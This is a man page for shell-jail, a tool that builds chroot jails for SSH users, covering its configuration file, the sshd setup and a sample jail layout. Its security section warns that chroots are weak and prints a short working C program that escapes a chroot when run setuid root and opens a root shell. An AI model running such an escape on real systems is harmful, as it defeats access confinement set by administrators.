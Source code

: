 ```yaml
---
title: shell-jail
section: 1
header: User manual
footer: shell-jail
author:
  - Sébastien Gross
date: 2016-02-25 15:22:10
adjusting: b
hyphenate: yes
---
```



# NAME

shell-jail - Easy chroot environment builder

# SYNOPSIS

shell-jail *config-file* *user*

# DESCRIPTION

*shell-jail* helps you easily create chroot environments. It was initially
written to create *ssh* jails.

First *shell-jail* reads the configuration file (see below for details) and
copies all required commands (and their dependencies) into the jail
directory. The jail directory is the user's home directory in the real file
system.

Then all *NSS* information (such as *password*, *shadow*) is copied into the
jail.

Finally all system-related files attributes are changed to immutable to
prevent any further modification.


# CONFIGURATION FILE

The configuration file (see below) contains all files you want to put in the
jail. the file consists of a *bash* compatible stanza which sets 3
variables: **COMMANDS**, **EXTRA** **EXTRA_FILES_DIRS**.

EXTRA
: Files from **EXTRA** variable are copied as it into the user's jail.

EXTRA_FILES_DIRS
: Directory from **EXTRA_FILES_DIRS** variable are copied as it into the
  user's jail in a relative way. For example files under */srv/extra/dir*
  are copied into *\<USER JAIL\>/*.

COMMANDS
: Every file defined in *COMMANDS* is copied into the user's jail. Then each
  file is scanned for its dependencies such as library (using ldd(1)) and
  devices (using strings(1)).


# SSH CONFIGURATION

In order to chroot a user the following stanza must be done for the given
user in */etc/ssh/sshd_config*:


````
Match User jdoe
    ChrootDirectory /home/jdoe
    X11Forwarding no
    AllowTcpForwarding no
````

When the user logs into the server he will be chrooted to */home/jdoe* which
structure looks like:

````
/home/jdoe
├── bin
│   ├── cat
│   ├── cp
│   ├── dash
│   ├── ls
│   ├── mkdir
│   ├── mv
│   ├── rm
│   └── sh -> /bin/dash
├── dev
│   ├── net
│   │   └── tun
│   ├── null
│   └── tty
├── etc
│   ├── group
│   └── passwd
├── lib
│   └── x86_64-linux-gnu
│       ├── libacl.so.1
│       ├── libattr.so.1
│       ├── libc.so.6
│       ├── libdl.so.2
│       ├── libnss_compat-2.19.so
│       ├── libnss_compat.so.2 -> libnss_compat-2.19.so
│       ├── libnss_files-2.19.so
│       ├── libnss_files.so.2 -> libnss_files-2.19.so
│       ├── libpcre.so.3
│       ├── libpopt.so.0
│       ├── libselinux.so.1
│       └── libz.so.1
├── lib64
│   └── ld-linux-x86-64.so.2
├── home
│   └── jdoe
│       └── USER'S FILES AND DIR
└── usr
    ├── bin
    │   ├── rsync
    │   └── scp
    └── lib
        └── openssh
            └── sftp-server
````


# SECURITY

It is relatively easy to escape from a chroot (see
https://filippo.io/escaping-a-chroot-jail-slash-1). So do not consider a
chroot as a ultimate security solution.

This simple C program can allow you to escape from the chroot as long as the
binary is owned by root and setuid to root.

````
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
 
int main() {
    int dir_fd, x;
    setuid(0);
    mkdir(".42", 0755);
    dir_fd = open(".", O_RDONLY);
    chroot(".42");
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot(".");  
    return execl("/bin/sh", "-i", NULL);
}
````


# SEE ALSO

sshd_config(5), ldd(1), strings(1)

# BUGS

No time to include bugs, command actions might seldom lead astray user's
assumption.


# COPYRIGHT

Copyright © 2010-2016 Sébastien Gross \<seb•ɑƬ•chezwam•ɖɵʈ•org\>.

Relesed under WTFPL (http://sam.zoy.org/wtfpl/COPYING).
